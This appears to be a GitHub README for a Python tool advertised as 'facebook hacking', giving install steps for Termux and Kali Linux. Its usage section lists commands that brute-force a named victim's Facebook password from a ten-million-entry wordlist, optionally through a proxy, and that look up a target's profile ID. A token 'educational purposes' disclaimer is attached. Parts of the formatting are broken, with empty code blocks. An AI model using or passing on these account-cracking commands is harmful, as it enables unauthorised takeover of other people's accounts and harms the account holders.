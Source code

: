 ### **Language is used to Make this tool**

- python
### **The Tool is for .** 
**Commands to run tool in ur terminal Termux && Kali Linux**

_facebook hacking_ 👍🏼
![_5619ffb8-062e-495f-8d5c-6b8e61313e3f](
)

> installation
`Note : Tool is Made of Educational Purposes only.
      Please try not to harm anyone device 
      it's For Fun Purpose Not For Revenge
      (Join Us https://asifgk.website3.me)`
```python
apt update && apt upgrade -y
``` 
```python
apt install git -y
``` 
```python
git clone https://github.com/hackerxphantom/Facebook_hack.git
``` 
```python
cd Facebook_hack
``` 
```python
bash setup
``` 
```python
```python

``` 
``` 
### **usage:)**

- U can Use Victim email Or Facebook Profile Id:
- Brute Force On Facebook Account Without proxy:
- Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt
- Brute Force On Facebook Account With Proxy:

- [ ] Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt -p 144.217.101.245:3129
- [ ] Get Target Facebook Profile ID:
- [ ] Command: python facebook_hack.py -g https://www.facebook.com/zuck
